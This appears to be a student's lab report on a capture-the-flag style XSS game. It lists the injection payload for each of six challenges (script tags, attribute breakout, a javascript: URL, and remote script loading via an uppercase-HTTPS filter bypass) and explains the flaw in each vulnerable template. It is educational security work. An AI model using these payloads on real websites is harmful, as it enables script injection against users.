






# Lab 6 - Playing with XSS

### Team Members:
1. Adam Robertson, 938152440, abr5598@psu.edu

## Drills
There are five tasks for you to complete. Please give a brief summary of what you did – feel free to include any thoughts / concerns / problems / etc. you encountered during the tasks. Also, include your answers to the questions asked in each task. Save your report as a PDF and submit it to Canvas before the deadline.


## Tasks 

### Challenge 1:

#### Attacking payload

```
<script>alert("Hacker man")</script>
```

#### Explanation

The page directly renders what ever is included in the search.

In the server code,
``` python
message = "Sorry, no results were found for <b>" + query + "</b>."
      message += " <a href='?'>Try again</a>."
 
      # Display the results page
self.render_string(page_header + message + page_footer)
```
where query is whatever was searched.

#### Screenshots



---

### Challenge 2:

#### Attacking payload

``` html


```

#### Explanation

In this level, the user input is rendered within innerHtml. With innerHtml, any script tag is not executed. However, we can use img tags with the onerror property. This property specifies a function that will run when there is an error loading the image. We simply try to render an image that doesn't exist, and the img will call our function.

This only issue with this is I don't see how we can define our own function? Since script tags do not run, how can we run a function that we define?

#### Screenshots



---

### Challenge 3:

#### Attacking payload

```html
' /> <script> alert("Hacker man"); </script>

```

#### Explanation

The code block
```html
html += "";
```

Takes in the string (num) that is after the '#' in the url and renders without any checks. Writing our scipt in the url after the '#' will inject it directly into the page.

#### Screenshots



---

### Challenge 4:

#### Attacking payload

``` html
' + alert("Hacker man") + '
```

#### Explanation

In the code,
``` html

```

Our time entered is substituted in {{timer}} before the function is ran. I believe all code in the "" is ran as a script. So with our injection, the code that runs as onload is
``` html
"startTimer('' + alert("Hacker man) +'')"
```
So the alert is called since everything in the "" is ran.

If we were to try and utilize the following html,
``` html
<div id="message">Your timer will execute in {{ timer }} seconds.</div>
```

by injecting a script tag, it would not work since the variable in the {{}} is only substituted in one pass? And isn't ran. I believe this is an EC6 thing.

#### Screenshots



---

### Challenge 5:

#### Attacking payload

``` html
javascript:alert("Hacker man")

```

#### Explanation

Javascript can be run in a url by using "javascript:".
We can utlize the code,
``` html
<a href="{{ next }}">Next >></a>
```
where next is define in the url.

by entering our injection as the next variable, whenever next is clicked, our javascript will run.

#### Screenshots



---

### Challenge 6:

#### Attacking payload

```
HTTPS://www.gstatic.com/charts/loader.js?callback=alert
```

#### Explanation

In this level, we can load javascript from the server. However, we can tell it to retrieve a javascript from a different location if we preface our javascript location with 'http'. Sadly, there is a check to keep us from loading javascript that is located elsewhere. But there was a mistake in this check as it only checks 'http', not 'Http', 'HTTP', or any other uppercase combination. As a result, we can host our own javascript with "alert('Hacker man')" and tell the server to load it.

I used a script that google hosts that will call a funtion. Sadly, I couldn't enter parameters, but if I hosted my own javascript file I would specify "Hacker man".

#### Screenshots



